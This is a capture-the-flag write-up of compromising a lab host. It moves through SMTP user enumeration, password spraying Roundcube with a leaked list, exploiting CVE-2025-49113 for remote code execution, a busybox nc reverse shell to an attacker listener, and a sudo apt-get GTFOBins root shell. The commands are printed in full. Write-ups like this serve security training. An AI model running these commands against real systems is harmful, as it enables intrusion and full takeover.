# Summary

Nmap revealed SSH, SMTP, and a web server running Roundcube Webmail. SMTP user enumeration confirmed two valid accounts, one of which had a working password from the leaked credential list. That got me into Roundcube 1.5.9, which is vulnerable to **CVE-2025-49113** (post-auth RCE via insecure deserialization). Popping a shell as `www-data` led straight to a sudo misconfiguration on `apt-get`, and root followed shortly after via GTFOBins.


## Recon

A quick `rustscan` + `nmap` pass showed three open ports:



```
rustscan -b 500 -a 10.1.57.35 -- -sC -sV -Pn -oN 10.1.57.35

22/tcp   open  ssh    OpenSSH 8.9p1 (Ubuntu)
25/tcp   open  smtp   Postfix smtpd
80/tcp   open  http   Apache httpd 2.4.52 (Ubuntu)
```

Nothing exotic here — SSH and a mail stack behind a web server. With a leaked username/password list already in hand, the plan was to validate which accounts were real before trying to brute-force anything.

## SMTP User Enumeration

Postfix on port 25 supports the `VRFY` command, which is a reliable way to confirm valid usernames without touching authentication:

<https://hackviser.com/tactics/pentesting/services/smtp#using-rcpt-to-command>

```bash
smtp-user-enum -M VRFY -U names.txt -t 10.1.57.35
```

Two accounts came back valid:

```
10.1.57.35: maria exists
10.1.57.35: kali exists
```

So the target had two real users: `maria` and `kali`.





## Web Enumeration

Directory brute-forcing on port 80 with `dirsearch` turned up a Roundcube installation:

```bash
dirsearch -u http://10.1.57.35/
...
200 - /roundcube/index.php
```

With confirmed usernames and a live webmail login page, the next logical move was password spraying against Roundcube using the leaked credential list.




## Initial Access: Brute Forcing Roundcube

Hydra and Caido both failed to play nicely with Roundcube's login flow (CSRF token handling likely got in the way), so I went looking for a purpose-built tool and landed on **cubeSpraying**:

<https://github.com/robotshell/cubeSpraying>





```bash
python cubeSpraying.py --url 'http://10.1.57.35/roundcube/' -U maria -P ../passwords.txt
```

Success on the first try:

```
[SUCCESS] Valid credentials found: maria:1qaz2wsx
```

Logging into Roundcube as `maria` immediately surfaced the first flag, sitting in an email in her inbox.




## Finding the Vulnerability

With access to the mailbox, checking the **About** page revealed the exact version in use:




```
Roundcube Webmail 1.5.9
```




Roundcube 1.5.9 is affected by **CVE-2025-49113**, a post-authentication remote code execution bug caused by insecure deserialization of an uploaded file name. A public PoC was readily available:

<https://github.com/hakaioffsec/CVE-2025-49113-exploit>


## Exploitation



Running the exploit against the target confirmed the vulnerability and executed a test command successfully:

```bash
php CVE-2025-49113.php http://10.1.57.35/roundcube/ maria 1qaz2wsx "id"
```

```
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
[+] Gadget uploaded successfully!
```





From there, it was just a matter of swapping the payload for a reverse shell. I generated a one-liner with [revshells.com](https://www.revshells.com/) and started a listener with `penelope`:

```bash
penelope -p 80
php CVE-2025-49113.php http://10.1.57.35/roundcube/ maria 1qaz2wsx "busybox nc 10.200.94.38 80 -e sh"
```

A shell came back as `www-data`, auto-upgraded to a full PTY.



## Privilege Escalation





A quick `sudo -l` check showed the `www-data` user could run `apt-get` as root with no password:

```
User www-data may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/apt-get
```



GTFOBins has a well-known entry for this exact scenario — `apt-get`'s update pre-invoke hook can be abused to spawn a root shell:



```bash
sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

```
# whoami
root
```

Game over — root shell, and the remaining flags were there for the taking.


